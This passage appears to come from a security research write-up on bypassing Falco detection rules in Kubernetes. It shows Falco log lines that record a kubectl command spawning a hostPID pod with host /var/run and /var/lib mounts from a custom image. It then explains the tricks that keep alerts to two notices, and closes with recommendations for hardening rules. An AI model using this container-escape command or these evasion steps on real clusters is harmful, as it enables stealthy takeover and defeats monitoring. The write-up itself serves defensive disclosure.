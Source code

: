 ```
10:46:24.847425566: Notice Unexpected connection to K8s API Server from container (command=kctl run r00t3 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test1"},{"mountPath": "/var/lib","name": "test2"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test1","hostPath":{"path": "/var/run"}},{"name":"test2","hostPath":{"path": "/var/lib"}}]}} k8s.ns=prd k8s.pod=dashboard-56755cd6c9-gg9w8 container=8f5761fed4da image=securekubernetes/example-dashboard:latest connection=10.80.0.7:51452->10.84.0.1:443) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-gg9w8 container=8f5761fed4da
10:46:43.757631494: Notice Unexpected connection to K8s API Server from container (command=kctl run r00t3 --restart=Never -ti --rm --image lol --overrides {"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/run","name": "test1"},{"mountPath": "/var/lib","name": "test2"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test1","hostPath":{"path": "/var/run"}},{"name":"test2","hostPath":{"path": "/var/lib"}}]}} k8s.ns=prd k8s.pod=dashboard-56755cd6c9-gg9w8 container=8f5761fed4da image=securekubernetes/example-dashboard:latest connection=10.80.0.7:51564->10.84.0.1:443) k8s.ns=prd k8s.pod=dashboard-56755cd6c9-gg9w8 container=8f5761fed4da
```

As can be seen, the final result is absolute and stealthy control of the cluster. This is the most silent attack so far with only 2 NOTICEs from the initial invocation of kctl. Several things worth noticing:

* The first spawned container is non-privileged to avoid **Launch Privileged Container**
* When spawning the first container _/var/lib_ mapping is necessary to pass the access to the kubelet folders
* The second spawned container is nested within the first container
* The final command must specify the non-monitored cache directory, in this case _/tmp_. Otherwise **Write below root** rule is triggered multiple times (by default kubectl stores the cache in the _/root/.kube_ directory)

## Discussion and Recommendations

The power of Falco is not in individual rules, but in groups of rules triggering together and overlapping when malicious action is performed. As we saw from the previous section, bypassing ALL the rules required to accomplish an attack phase is possible, but challenging. This task will be further complicated by the existence of custom rulesets in a customer environment because those are invisible to the attacker as opposed to the default ruleset.

As in a case with all security products, good product security posture is about security layers and combination of security controls while not over-relying on one of the controls. Falco continues to be a great solution for detection phase of malicious activity within the cluster.  

Some general recommendations and suggestions:
- It seems that there is no easy way to prevent an attacker from bypassing the rules relying on _proc.name_ and _file.name_. I suggest rethinking the reliance on _proc.name_ and _file.name_ fields for the existing and future rules. 
- Too many rules include construct `and not` with every such construct being a potential for exception bypass.
- Review rule priorities in the bypass context - ease of evading WARNINGs and ERRORs through symlinks and executable naming often goes opposite to the difficulty in evading DEBUGs, INFOs and NOTICEs.
- For the CVE-specific rules periodic check of public exploits is needed.
- Encourage clients to develop their own private rulesets.
---


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS